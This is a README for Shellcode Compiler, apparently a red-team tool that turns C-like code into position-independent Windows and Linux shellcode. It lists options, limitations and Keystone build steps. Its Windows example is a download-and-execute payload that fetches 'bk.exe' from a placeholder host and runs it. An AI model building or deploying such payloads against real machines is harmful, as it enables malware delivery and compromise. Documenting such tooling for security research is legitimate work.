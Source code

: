 # Shellcode Compiler

Shellcode Compiler is a program that compiles C/C++ style code into a small, position-independent and NULL-free shellcode for Windows (x86 and x64) and Linux (x86 and x64). It is possible to call any Windows API function or Linux syscall in a user-friendly way.

Shellcode Compiler takes as input a source file and it uses it's own compiler to interpret the code and generate an assembly file which is assembled with Keystone engine.

# Command line options

        -h (--help)      : Show this help message
        -p (--platform)  : Shellcode platform: win_x86,win_x64,linux_x86,linux_x64
        -v (--verbose)   : Print detailed output
        -t (--test)      : Test (execute) generated shellcode
        -r (--read)      : Read source code file
        -o (--output)    : Output file of the generated binary shellcode
        -a (--assembbly) : Output file of the generated assembly code

# Windows example

        function URLDownloadToFileA("urlmon.dll");
        function WinExec("kernel32.dll");
        function ExitProcess("kernel32.dll");

        URLDownloadToFileA(0,"https://site.com/bk.exe","bk.exe",0,0);
        WinExec("bk.exe",0);
        ExitProcess(0);

# Linux example

        chmod("/root/chmodme",511);
        write(1,"Hello, world",12);
        kill(1661,9);
        getpid();
        execve("/usr/bin/burpsuite",0,0);
        exit(2);

# Invocation example

        ShellcodeCompiler.exe -r Source.txt -o Shellcode.bin -a Assembly.asm -p win_x64
        
# Limitations

1. It is not possible to use the return value of an API call
2. It is not possible to use pointers or buffers
3. It is not possible to declare variables

Multiple other limitations exists as well.
This is an Alpha version. Please report any bugs or suggestions.

# Changelog

1. Initial support for Windows x64
2. Initial support for Linux (x86 and x64) shellcodes

# Keystone

1. Download Keystone Engine source code
2. Compile Keystone Engine as static library using nmake-lib.sh (for Linux) and nmake-lib.bat (for Windows)
3. Windows: Copy the resulted lib file from keystone-src\build\llvm\lib\keystone.lib to ShellcodeCompiler\Keystone\keystone_x86.lib (for 32 bits) and keystone_x64.lib (for 64 bits)
4. Linux: Copy the resulted lib file from keystone-src\build\llvm\lib\keystone.lib to ShellcodeCompiler\Keystone\libkeystone_x86.a (for 32 bits) and libkeystone_x64.a (for 64 bits)

# Author

Ionut Popescu (@NytroRST)
